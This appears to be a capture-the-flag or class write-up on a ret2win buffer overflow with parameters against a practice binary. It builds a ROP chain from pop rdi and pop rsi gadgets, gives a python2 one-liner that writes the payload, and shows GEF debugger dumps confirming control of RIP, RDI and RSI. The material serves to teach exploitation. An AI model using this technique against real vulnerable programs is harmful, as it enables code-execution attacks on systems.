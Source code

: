 Here we need to pass two params to `hacked()` so we need to push them onto the stack before calling it right.
When we fill the buffer and overflow the stack, we fill data from low adresses (the lower address being the start of the buffer) to high.er addresses.

Let's say we wanna call a function with a specific value: we first fill in the necessary padding so we can overflow, then we fill in the value of the parameter we want to use with the function, and then the address of the function we wanna call with this parameter.
When th e program will execute, RIP will "move" first through the buffer, then into the parameter and then into the address of the function.

So here, we need to fill in data into the program in this order: 
1. the padding full of A's
2. the `pop rdi; ret;` gadget and add extra zeroes to fill the whole 64 bits
3. the value to pop in RDI
4. the `pop rsi; pop r15; ret` gadget (`pop rsi; ret;` alone didnt exist)
5. the value to pop in RSI and right after the value to pop in r15
6. the address of `hacked()`

We can do it full-manually like this:
```bash
$ python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    29573 segmentation fault  ./ret2win_params < payload
$
```

When exiting `register_name()` we have a stack that looks like this:

```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb48  →  0x000000000040124b  →  <__libc_csu_init+005b> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  0x6572656874206948 ("Hi there"?)
$rdi   : 0x00007fffffffd950  →  0x00007fffffffd980  →  0x6572656874206948 ("Hi there"?)
$rip   : 0x00000000004011d6  →  <register_name+0046> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb48│+0x0000: 0x000000000040124b  →  <__libc_csu_init+005b> pop rdi        ← $rsp
0x00007fffffffdb50│+0x0008: 0xdeadbeefdeadbeef
0x00007fffffffdb58│+0x0010: 0x0000000000401249  →  <__libc_csu_init+0059> pop rsi
0x00007fffffffdb60│+0x0018: 0xc0debabec0debabe
0x00007fffffffdb68│+0x0020: 0x0000000000000000
0x00007fffffffdb70│+0x0028: 0x0000000000401142  →  <hacked+0000> push rbp
0x00007fffffffdb78│+0x0030: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0038: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011cf <register_name+003f> call   0x401040 <printf@plt>
     0x4011d4 <register_name+0044> nop    
     0x4011d5 <register_name+0045> leave  
●→   0x4011d6 <register_name+0046> ret    
   ↳    0x40124b <__libc_csu_init+005b> pop    rdi
        0x40124c <__libc_csu_init+005c> ret    
        0x40124d                  nop    DWORD PTR [rax]
        0x401250 <__libc_csu_fini+0000> ret    
        0x401251                  add    BYTE PTR [rax], al
        0x401253                  add    BYTE PTR [rax-0x7d], cl
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x4011d6 in register_name (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011d6 → register_name()
[#1] 0x40124b → __libc_csu_init()
[#2] 0x401249 → __libc_csu_init()
[#3] 0x401142 → frame_dummy()
[#4] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#5] 0x7fffffffdc68 → int1 
```
The arguments are in RDI and RSI, we now know we can call `hacked()`
```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb70  →  0x0000000000401142  →  <hacked+0000> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0xc0debabec0debabe
$rdi   : 0xdeadbeefdeadbeef
$rip   : 0x000000000040124c  →  <__libc_csu_init+005c> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb70│+0x0000: 0x0000000000401142  →  <hacked+0000> push rbp        ← $rsp
0x00007fffffffdb78│+0x0008: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0010: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
0x00007fffffffdb88│+0x0018: 0x75eab2ba6757f462
0x00007fffffffdb90│+0x0020: 0x0000000000000000
0x00007fffffffdb98│+0x0028: 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
0x00007fffffffdba0│+0x0030: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
0x00007fffffffdba8│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401246 <__libc_csu_init+0056> pop    r13
     0x401248 <__libc_csu_init+0058> pop    r14
     0x40124a <__libc_csu_init+005a> pop    r15
 →   0x40124c <__libc_csu_init+005c> ret    
   ↳    0x401142 <hacked+0000>    push   rbp
        0x401143 <hacked+0001>    mov    rbp, rsp
        0x401146 <hacked+0004>    sub    rsp, 0x10
        0x40114a <hacked+0008>    mov    QWORD PTR [rbp-0x8], rdi
        0x40114e <hacked+000c>    mov    QWORD PTR [rbp-0x10], rsi
        0x401152 <hacked+0010>    movabs rax, 0xdeadbeefdeadbeef
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x40124c in __libc_csu_init (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40124c → __libc_csu_init()
[#1] 0x401142 → frame_dummy()
[#2] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#3] 0x7fffffffdc68 → int1 
```
